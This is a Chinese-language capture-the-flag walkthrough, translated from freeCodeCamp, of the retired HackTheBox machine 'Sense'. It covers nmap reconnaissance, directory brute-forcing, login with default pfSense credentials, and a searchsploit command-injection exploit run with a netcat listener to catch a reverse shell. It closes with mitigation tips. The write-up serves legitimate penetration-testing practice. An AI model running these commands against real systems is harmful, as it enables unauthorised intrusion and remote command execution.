










# 感知演练–破解盒子

> 原文：<https://www.freecodecamp.org/news/sense-walkthrough-hackthebox/>

HackTheBox 是一个在线黑客平台，允许你测试和练习你的渗透测试技能。

它包含几个不断更新的易受攻击的实验室。其中一些模拟了真实世界的场景，一些更倾向于 CTF 式的挑战。

注意: **只允许对退役的 HTB 机器进行报道。**

## 先决条件

为了充分利用本演练，您需要以下内容:

*   [HackTheBox](https://www.hackthebox.com/) VIP 订阅。
*   Kali Linux 操作系统。
*   基本的暴力知识。

## 机器信息

**名称:**意义

Ip 地址: 10.10.10.60

操作系统: FreeBSD

各位，系好安全带，我们要去兜风了！

## 步骤 1-做一些侦察

侦察是收集尽可能多的目标系统信息的过程，通常是任何黑客攻击的第一步。

让我们开始运行一个 [Nmap](https://nmap.org/) 扫描，通过运行以下命令来收集关于该机器上运行的开放端口和服务的信息:

```
nmap -A -T4 -p- 10.10.10.60
```

结果如下:

```
nmap -A -T4 -p- 10.10.10.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-08 05:23 EST
Nmap scan report for 10.10.10.60
Host is up (0.36s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1561.11 seconds
```

从扫描结果中，我们可以看到有 2 个开放的端口:

*   端口 80 -超文本传输协议(HTTP)
*   端口 443 -超文本传输协议安全(HTTPS)

## 步骤 2–访问 IP 地址

现在让我们在浏览器中访问 IP 地址。



sense login page

我们得到一个 pfsense 登录页面。pfsense 的默认凭证是`admin/pfsense`。不幸的是，这些凭证不起作用。

## 步骤 3-使用目录暴力

您使用目录暴力来查找 web 应用程序中的隐藏目录。

现在，让我们使用`dirbuster`执行一次目录暴力。



dirbuster

dirbuster 给了我们一些有趣的东西:

*   响应代码为 200 的页面。
*   一个`changelog-txt`文件。
*   一个`system-user-txt`文件。

`changelog-txt`和`system-user-txt`看起来超级多汁，让我们看看是否可以查看它们的内容。

为了读取这个文件的内容，我们在浏览器中键入`10.10.10.60/changelog.txt`。

`changelog.txt`包含以下内容:



changelog.txt file

为了读取这个文件的内容，我们在浏览器中键入`10.10.10.60/system-users.txt`。

`system-users.txt`包含以下内容:



system-user.txt file

## 步骤 4–尝试登录

`system-users.txt`包含用户名“Rohit”和密码“company defaults”，看起来不像密码。公司默认= pfsense 默认密码怎么办？让我们来试试:

*   **用户名:** Rohit
*   密码: pfsense



dashboard

我们被重定向到 Rohit 的仪表板。让我们四处点击，看看我们是否能得到有趣的信息或版本号。

管理页面包含一个版本号



version number

## 第 5 步–利用漏洞

现在我们有了一个版本号，让我们使用 searchsploit 来检查在 **pfsense 2.1.3 上是否有任何已知的漏洞。**

Searchsploit 是一个 Exploit-DB 命令行搜索工具，用于 ExploitDB ，一个漏洞库。

Searchsploit 预装在 Kali 中。现在让我们在终端中运行以下命令:

```
searchsploit pfsense
```



searchsploit result

既然我们知道这个版本容易受到**命令注入**攻击，让我们试着利用它。

命令注入是一个 web 安全漏洞，允许攻击者在应用程序服务器上执行任意操作系统命令，最终危及应用程序及其数据。当未经整理的用户输入通过应用程序传递时，就会发生这种情况。

Searchsploit 为我们提供了一个 Python 漏洞，所以让我们来试试吧。

在利用这个漏洞之前，我们需要设置一个 **Netcat** 监听器。

Netcat 是一个网络实用程序，监听器是它的特性之一。监听器允许您监听打开的端口，创建反向外壳，并通过网络发送数据或文件。

```
nc -lnvp 9001
```

接下来，我们通过运行以下命令来利用漏洞:

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
```

嘣！我们找到一个弹壳:



shell

## 步骤 6–找到用户标志

我们的 shell 不是一个 [PTY](https://man7.org/linux/man-pages/man7/pty.7.html) shell，这意味着有些特定的命令我们不能运行。然而，让我们看看我们是否能用我们当前的外壳抓取任何标志。

让我们转到 **rohit** 目录，看看我们能找到什么。



user flag

我们得到了我们的用户标志！

## 步骤 7–找到根标志

如果我们不需要权限提升就可以使用根标志，会怎么样？让我们看看。

权限提升是一种攻击，通过这种攻击，用户可以获得超出预期的系统访问权限。

让我们转到**根**目录，看看我们能找到什么。



root flag

Booooom！我们已经成功地根了这台机器。

## 结论

我们之所以能够找到这台机器，是因为它容易受到命令注入攻击。以下是防止此漏洞的一些方法:

*   净化用户输入。
*   避免直接调用操作系统命令。
*   经常修补和更新应用程序。